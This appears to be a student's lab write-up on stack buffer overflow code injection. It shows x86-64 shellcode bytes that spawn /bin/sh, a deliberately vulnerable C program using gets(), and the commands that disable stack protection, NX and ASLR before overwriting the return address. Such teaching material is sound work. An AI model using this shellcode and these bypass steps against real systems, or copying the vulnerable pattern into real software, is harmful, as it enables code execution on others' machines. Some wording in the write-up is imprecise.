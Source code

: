 The code starts at offset 0x478 and finishes right before offset 0x495.
```
$ xxd -s0x478 -l32 -p a.out shellcode
```
we get the instruction (between register 0x478 and 0x495 of length 32) starting from register 0x478
```
$ cat shellcode
eb0e5f4831c0b03b4831f64831d20f05e8edffffff2f62696e2f736800ef
bead
```

## The Three Trials of Code Injection
#### In this section we will be bypassing the following stack-smaching protections:
1. GCC Stack-Smashing Protector (SSP): If there is some change in secret value of stack it will indicate stack buffer overflow
2. Executable space protection (NX): Makes memory locations non-executable
3. Address Space Layout Randomization (ASLR): Randomizes location of stack preventing manipulation

### victim.c
We are planning to do an overflow in the char name buffer with a long string and overwrite the return address and print the buffer location
```
#include <stdio.h>
int main() {
  char name[64];
  printf("%p\n", name);  // Print address of buffer.
  puts("What's your name?");
  gets(name);
  printf("Hello, %s!\n", name);
  return 0;
}
```
We disable SSP, while disabling a warning was returned regarding to the danger of buffer overflow:
```
$ gcc -fno-stack-protector -o victim victim.c
/tmp/ccEPLB4U.o: In function `main':
victim.c:(.text+0x1a): warning: the `gets' function is dangerous and should not be used.
```
Disable NX:
```
$ execstack -s victim
```
Disable ASLR when running the binary:
```
$ setarch `arch` -R ./victim
0x7fffffffe370
What's your name?
World
Hello, World!
```
We then print the 16 bytes address in little-endian
```
$ a=`printf %016x  0x7fffffffe370 | tac -rs..`
$ echo $a
73efffffff7f0000
```
For some reason Executable space protection (NX) was not disabled, most likely because I ran this code two times.  
I will try to diable NX again and run it  
![error1](https://bytebucket.org/eunik/comp_security_480_project2/raw/dc0dbc64f0842bcf28a1e3a8a77573c9343d0f18/error1.PNG?token=2db79f2acb95de48c93f4b2ce5f36072882901ad)

